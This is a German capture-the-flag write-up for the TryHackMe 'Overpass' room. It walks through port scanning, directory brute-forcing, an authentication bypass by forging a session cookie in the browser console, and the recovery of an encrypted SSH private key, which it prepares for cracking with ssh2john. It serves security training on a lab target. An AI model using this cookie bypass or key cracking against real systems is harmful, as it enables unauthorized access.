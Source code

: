 # Overpass 1 CTF tryhackme.com
> Link zur CTF: [tryhackme.com](https://tryhackme.com/room/overpass)

Als erstes Scannen wir die IP-Adresse nach offene Ports um uns ein überblick zu verschaffen:<br>

* Command: `nmap -sV -A -oN scan.txt <TARGET-IP>`<br>

### Nmap Scan Result:
```
# Nmap 7.94SVN scan initiated Sun Feb 18 22:26:31 2024 as: nmap -sV -A -oN scan.txt 10.10.129.208
Nmap scan report for 10.10.129.208
Host is up (0.079s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 18 22:26:48 2024 -- 1 IP address (1 host up) scanned in 16.27 seconds
```

es sind also 2 Ports offen. SSH ist nicht angreifbar, aber http ist interesant also konzentrieren wir uns auf port 80.
Als erstes Scannen wir die website nach verzeichnisse und bruteforcen diese:<br>

* Command: `gobsuter dir http://10.10.197.218/ /usr/share/wordlists/dirb/command.txt`<br>

### Gobuster Result:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.197.218/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]

===============================================================
Finished
===============================================================
```
Ein interesantes gibt es bei dem ergebnis: **/admin** sieht wie eine Login-Page aus.<br>

### /admin page:
![Admin anmelde Seite](./admin_page.png)

nach dem ich einmal zum test **username=admin&password=admin** ausprobiert habe habe ich mit dem Browser-Tools von Mozilla Firefox sehen können das eine .js Datei angesprochen wird namens: **login.js** wenn wir uns diesen code mal ansehen finden wir folgende interesante funktion:<br>

* login.js:
  ```javascript
    async function login() {
      const usernameBox = document.querySelector("#username");
      const passwordBox = document.querySelector("#password");
      const loginStatus = document.querySelector("#loginStatus");
      loginStatus.textContent = ""
      const creds = { username: usernameBox.value, password: passwordBox.value }
      const response = await postData("/api/login", creds)
      const statusOrCookie = await response.text()
      if (statusOrCookie === "Incorrect credentials") {
          loginStatus.textContent = "Incorrect Credentials"
          passwordBox.value=""
      } else {
          Cookies.set("SessionToken",statusOrCookie)
          window.location = "/admin"
      }
    }
  ```
in diesem code gibt es eine sicherheits lücke die in einem echten Senario ziemlich fatal währe,<br>der Fehler liegt in: `(statusOrCookie === "Incorrect credentials")` Man könnte einfach sein Cookie auf `"statusOrCookie"` setzen über die Browser-Console<br>

* Command: `Cookies.set("SessionToken","statusOrCookie")` <br>

und die Seite neuladen und dadruch das login umgehen, und ich bin drin!<br>

### Seiten Inhalt:
```
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```
Auf der seite finden wir eine nachricht an den User: **James** und einen verschlüsselten **id_rsa** key für den fall das er sein Password vergisst. Anscheinend ist diese Function im Code eine art Backdoor für den Entwickler aber leider nicht personalisiert genung und zu offensichtlich.
<br>
Also speichern wir uns diesen Key auf unseren system in einer datei. Aber wir müssen sie noch entschlüsseln<br>
<br>
dafür benutze ich: `ssh2john`
* Command: `ssh2john id_rsa > hash`<br>




